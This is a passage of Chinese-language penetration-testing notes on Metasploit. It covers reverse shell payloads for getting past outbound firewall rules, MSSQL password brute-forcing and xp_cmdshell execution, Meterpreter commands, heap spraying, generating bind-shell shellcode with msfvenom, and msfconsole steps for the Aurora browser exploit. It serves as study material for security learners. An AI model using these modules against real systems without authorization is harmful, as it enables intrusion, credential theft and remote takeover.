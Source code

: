 若防火墙有严格的出站规则过滤，Reverse Shell需要找到一个能出站的端口：
```
set payload windows/meterpreter/reverse_tcp_allports
```

### MSSQL 攻击

暴力破解密码：

```
use auxiliary/scanner/mssql/mssql_login
set PASS_FILE ...
...SNIP...
exploit
```

xp_cmdshell 是mssql的内建程序，可以执行操作系统指令:

```
use auxiliary/scanner/mssql/mssql_payload
set payload windows/meterpreter/reverse_tcp
```

## Metepreter 

```
screenshot
sysinfo

```


## 客户端攻击

通过社会工程学手段让客户端访问某个网页/执行某段代码

### 浏览器渗透攻击

#### 堆散射 Heap Spraying

将NopSled和Shellcode结合成固定的形式，然后将它们重复填充到堆中，直到填满一大块内存，但程序的执行流发生改变的时候，会随机跳转到内存中的某一地方，这个内存地址大概率已经被NopSled占领了，而后的shellcode也会随即运行。

#### Metasploit NopSled

```shell
> msfvenom -p windows/shell/bind_tcp LPORT=443 -f c -o shellcode.c
```

可以看到C文件中定义了一个极大的数组来存放Payload数据，而前面很大一部分都是\\x90 nop指令，可以输出为exe文件或者elf文件并用x64dbg或者ida来分析。

#### 实例：极光漏洞

```
msfconsole > use windows/browser/ms10_002_aurora
msfconsole > set PAYLOAD ......
msfconsole > show options
msfconsole > show advanced

set AutoRunScript migrate -f
```
